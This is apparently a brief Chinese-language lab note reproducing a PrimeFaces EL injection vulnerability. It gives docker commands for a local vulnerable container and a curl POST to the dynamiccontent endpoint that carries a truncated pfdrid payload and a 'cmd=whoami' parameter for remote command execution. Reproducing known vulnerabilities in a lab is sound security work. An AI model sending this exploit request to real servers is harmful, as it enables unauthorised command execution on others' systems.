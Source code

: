 环境搭建
```
docker build -t primefaces-el-injection .
docker run -d -p 9090:8080 primefaces-el-injection
```

![](./img/9cae7574ad2c46a99daca7107dde08f4.png)


漏洞复现
```
curl -X POST "http://127.0.0.1:9090/primefaces/javax.faces.resource/dynamiccontent.properties.xhtml" -d "pfdrt=sc&ln=primefaces&pfdrid=uMKljP...&cmd=whoami"
```

![](./img/6d47b1748fd2442fb9a59665998cbf0d.png)
